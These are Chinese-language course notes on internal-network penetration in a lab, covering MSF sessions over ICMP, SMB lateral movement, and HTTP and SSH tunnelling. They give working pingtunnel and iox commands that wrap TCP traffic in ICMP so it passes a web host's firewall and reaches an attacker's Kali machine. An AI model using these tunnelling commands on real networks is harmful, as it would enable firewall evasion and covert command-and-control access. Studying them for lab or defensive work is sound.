 54min  MSF icmp实现上线。msf的dns过时，已下架。

1h09min   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732529462918.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

1h20min   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732531243372.png)

接收客户端传递的ICMP：

![1732531600655](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732531600655.png)

端口转发，创建有socks5协议 ：

![1732531373768](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732531373768.png)

再在web上开放一个2222端口：

![1732535373473](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732535373473.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。

# 174：隧道技术 http ssh

ssh目前只能通讯，不能上线，目前没有c2工具能利用ssh上线。     [192.168.2.11](http://192.168.2.11/) 192.168.139.222 都是web机。

### http:

http隧道上线一般意义不大，能通过http上线就能通过正反向上线

![1732609043452](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732609043452.png)

在情况1下，无法通过c2上线控制web机。因为入站只有web端口：80或者443，这两个端口都被占用，所以只能通过webshell工具来控制web机，而且也没有办法通过Web机控制sql，因为web的出站被限制。所以就需要通过隧道技术来实现让sql跟web机连接        这里是通过Web来建立隧道获取sql机上的有价值信息

9min  看防火墙配置，这里本机只能访问192.168.139.222       2.11 和 2.22 都访问不到     同一个网段好像可以不用看防火墙就能访问，不在同一个网段就得看防火墙策略。
